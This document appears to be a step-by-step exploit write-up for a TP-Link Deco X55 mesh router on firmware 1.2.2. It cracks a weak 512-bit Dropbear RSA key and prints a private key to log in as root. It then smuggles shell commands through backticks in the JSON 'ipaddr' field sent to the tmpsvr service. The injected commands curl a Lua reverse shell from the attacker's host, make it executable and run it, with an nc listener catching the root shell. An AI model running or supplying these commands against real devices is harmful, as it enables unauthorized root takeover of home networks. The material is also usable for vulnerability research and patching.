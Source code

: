 # TP-Link Mesh Network Attack
## Intro
In this write-up, we use TP-Link Deco X55, firmware version 1.2.2 Build 20230301 Rel. 53300 as an illustration example. 

Deco X55 uses Dropbear SSH to secure inter-AP control plane data. The gateway node runs Dropbear on TCP port 20001 for this purpose. 

However, vulnerable versions of such Dropbear SSH connections use 512-bit RSA keys, which is a weakness. 

## Attack Step 1: Fetch the public key from the gateway and crack to learn the private key

To jailbreak your own Deco X55, you first use `fetch_dropbear_pub.py`: (`pip install paramiko` is needed)

![](./fetch_512_rsa_pub.png)

`ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAQQDCpUvga/nk2lu+KxLsaEqrRXBZzflAJ2YYNwvSNzC8Ro+yxTJxpZ+V8qBYzZ54Kntc+Ojx0nZdR530CIdRhshd`

Save this result as `my_tplink_pub.pub`.

Then use GGNFS/MSIEVE to crack and obtain the private key. (This step is left as an exercise. )

You will finally get something like this file `my_tplink_pri.pem`: 

```
-----BEGIN RSA PRIVATE KEY-----
MIIBOgIBAAJBAMKlS+Br+eTaW74rEuxoSqtFcFnN+UAnZhg3C9I3MLxGj7LFMnGl
n5XyoFjNnngqe1z46PHSdl1HnfQIh1GGyF0CAwEAAQJASS8fPU070wkqz3Cgl9SK
pqTgHlPscGuf3mDsB+kKYO869F1yQ2m9WvIEBTKXoPhO7q3XSj3B9tO/6j4iGm5+
nQIhAOTfjOc3Bosm1iouOATZ0el0nK8iuNL0urZTIIFFF79rAiEA2bc3hL64S/pX
3gkFW769eIRAnJaqY4Tqdk2oQvcD8VcCIQCHlKJcqe0Xa5c8/4ox3XMLMAhNe20v
ksg0j8PWsD5kJwIgMfhNc9hacIXbGQk1A6O51Sl1svsZzJG7Rr/4OLZ9Xy0CIB/+
YrHsml/teW8NOGTRHbicu+F7H+X97BD1No1yQiaV
-----END RSA PRIVATE KEY-----
```

## Attack Step 2: Verify the private key matches the public key

Install putty on Ubuntu:
`sudo apt-get install -y putty`

Then you will have access to the `puttygen` tool. 

Show and verify their signatures match, just to make sure:

![](./verify_pub_pri_match.png)

## Attack Step 3: Convert the private key to PuTTY .ppk format

Input: 

`puttygen my_tplink_pri.pem -O private -o my_tplink_pri.ppk`

## Attack Step 4: Authenticate to the Dropbear server on the gateway

Use plink with your ppk key to connect: 

`plink -v -L 20002:127.0.0.1:20002 root@192.168.68.1 -N -P 20001 -i my_tplink_pri.ppk`

![](./plink.png)

Important: You need to hit "Return" key on your keyboard to begin the session and enable "Local port 20002 forwarding to 127.0.0.1:20002".

## Attack Step 5: Prepare a reverse shell script

I used [Reverse Shell Generator](https://www.revshells.com/) to generate a lua reverse shell for Deco X55. 
Download my reverse shell [here](./luashell_tplink.sh), and you might want to change IP address and port number within this script to your own local machine's.

## Attack Step 6: Prepare the environment to execute the tmpcli binary on the attacker's machine

The attacker must use a aarch64 machine to launch this attack. 

Download this vulnerable firmware [here](https://static.tp-link.com/upload/firmware/2023/202303/20230331/Deco_X55_V1.0_1.2.2_Build_230301.zip). 

Unpack this firmware (temporarily left as an exercise). Change your directory to the file system root, and use the export command. After that, try running the `/usr/bin/tmpcli` command.   

`export LD_LIBRARY_PATH=$PWD/usr/lib:$PWD/lib`

![](./run_tmpcli.png)

## Attack Step 7: Start exploiting the vulnerablity in `tmpsvr`

Execute the command: 

```
echo '{"params":{"ipaddr":"192.168.71.250`curl -o /tmp/luashell.sh http://192.168.68.51:4443/luashell_tplink.sh`", "port":"6489"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

This command tells the gateway to download the `luashell_tplink.sh` from the attacker's server (http://192.168.68.51:4443), and writes this script to `/tmp/luashell.sh`. 

Use this command to chmod the script:

```
echo '{"params":{"ipaddr":"192.168.71.250`chmod u+x /tmp/luashell.sh`", "port":"6489"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

On the attacker's machine, run something like `nc -l 9001`.

Finally, execute the script on the mesh gateway:
```
echo '{"params":{"ipaddr":"192.168.71.250`/tmp/luashell.sh`", "port":"6489"}}' | ./tmpcli -o 0xc505 -u 127.0.0.1 -p 20002
```

Hit `uname -a` and `id` in the attacker's terminal. You will see something like:

![](./root_success.png)


